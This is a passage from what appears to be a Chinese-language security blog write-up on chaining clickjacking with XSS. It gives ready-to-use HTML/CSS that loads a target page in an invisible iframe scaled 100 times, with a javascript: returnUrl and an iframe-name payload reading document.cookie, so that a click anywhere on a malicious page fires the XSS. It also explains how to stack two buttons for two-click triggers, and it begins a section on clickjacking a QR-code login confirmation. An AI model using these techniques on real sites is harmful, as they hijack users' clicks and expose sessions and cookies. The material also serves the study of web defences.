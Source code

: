 在我们的恶意网页中，用 iframe 加载此XSS链接，再用 css 把 iframe 放大 100 倍。

```
<style>
iframe {
    position: fixed; /* 绝对定位 */
    top: calc(-13px * 100);
    left: calc(-20px * 100); /* 按钮左上各有20px、13px空隙，此举使按钮出现在左上角 */
    transform-origin: 0 0 0; /* 放大中心设为左上角 */
    transform: scale(100); /* 放大100倍 */
}
</style>

<iframe src="https://www.xxx.com/aaa?returnUrl=javascript:(eval)(name)//" name="(alert)(document.cookie)" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>
```

此时可以看到左上角的按钮覆盖到了整个页面，当点击页面任意位置触发XSS。

之后就是透明化此 iframe 了。

```html
<style>
/* 此段copy自 【作者：米斯特安全攻防实验室-Vulkey_Chen 博客：gh0st.cn】*/
iframe {
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
</style><style> iframe {position: fixed; /* 绝对定位 */top: calc(-13px * 100);left: calc(-20px * 100); /* 按钮左上各有20px、13px空隙，此举使按钮出现在左上角 */transform-origin: 0 0 0; /* 放大中心设为左上角 */transform: scale(100); /* 放大100倍 */ } </style> <iframe src="https://www.xxx.com/aaa?returnUrl=javascript:(eval)(name)//" name="(alert)(document.cookie)" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>
```

最后写上诱导点击的部分就行了。

PS. 实际利用过程，可以根据情况变通。如：一个页面需要先点按钮A，再点弹框按钮B 才可以触发。可以尝试变换 iframe 大小，使两个按钮 叠加在一起，之后再用CSS放大 iframe 200倍，实现两次点击页面任意位置触发XSS。

如图所示，把重叠部分左上角对齐，之后放大200倍。

两次点击页面任意位置触发XSS。

##### 二.点击劫持+二维码登录

某日留意到X网站网页端可以扫码登录。

手机APP扫码后，打开一个页面（url-A），点击确认后网页端即可登录。而且没做 点击劫持 防护。

url-A :http://www.xxx.com/qrcode?key=xxxxx
